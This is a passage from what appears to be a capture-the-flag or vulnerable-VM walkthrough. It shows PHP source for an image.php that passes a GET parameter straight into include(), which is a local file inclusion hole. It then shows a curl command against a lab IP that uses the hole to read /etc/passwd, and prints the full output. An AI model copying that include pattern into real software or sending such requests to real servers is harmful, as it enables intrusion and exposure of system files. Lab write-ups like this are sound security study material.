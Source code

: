     // image.php
    <?php
    $secret = $_GET['secrettier360'];
    if(isset($secret))

    {
     echo"finaly you got the right parameter";
     echo "<br><br><br><br>";
     include("$secret");

    }

    ?>



#### Read /etc/passwd file


    curl http://192.168.172.128/image.php?secrettier360=/etc/passwd | sed -e '6,$!d' | sed 's/finaly you got the right parameter<br><br><br><br>//' | sed '$d'
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    messagebus:x:106:110::/var/run/dbus:/bin/false
    uuidd:x:107:111::/run/uuidd:/bin/false
    lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
    whoopsie:x:109:117::/nonexistent:/bin/false
    avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
    avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
    dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
    colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
    speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
    hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
    kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
    pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
    rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
    saned:x:119:127::/var/lib/saned:/bin/false
    usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
    victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
    mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
    saket:x:1001:1001:find password.txt file in my directory:/home/saket:
    sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
